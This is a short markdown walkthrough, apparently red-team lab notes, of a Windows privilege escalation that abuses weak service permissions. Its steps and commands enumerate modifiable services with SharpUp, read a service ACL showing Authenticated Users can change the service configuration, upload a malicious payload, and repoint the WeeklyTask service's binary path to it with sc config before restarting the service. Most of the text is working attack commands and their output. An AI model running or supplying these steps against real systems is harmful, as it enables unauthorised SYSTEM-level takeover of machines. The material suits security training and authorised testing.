 - Unquoted Service Paths

- Weak Service Permissions

###Step 1: Identify Modifiable Services:<br>

  `C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices`

###Step 2: Check Service Permissions:<br>
  `powershell-import C:\Tools\Get-ServiceAcl.ps1`
  `powershell Get-ServiceAcl -Name WeeklyTask | select -expand Access`

"
ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
"

###Step 3: Validate Current Binary Path:
  `sc qc WeeklyTask`

"
BINARY_PATH_NAME   : "C:\Program Files\Services\Update.exe"
"
We have successfully displayed the current path of the WeeklyTask service.

###Step 4: Upload Malicious Payload:
  Next, we upload a malicious payload to the system that we will configure the service to execute. We’ll place our payload in a temporary directory.

###Step 5: Change the Service's Binary Path
  Now that we have our payload uploaded, we can change the service's binary path to point to our malicious executable.

`sc config WeeklyTask binPath= C:\Temp\Teams.exe`

###Step 6: Stop and Start the Service
`run sc stop WeeklyTask`
`run sc start WeeklyTask`
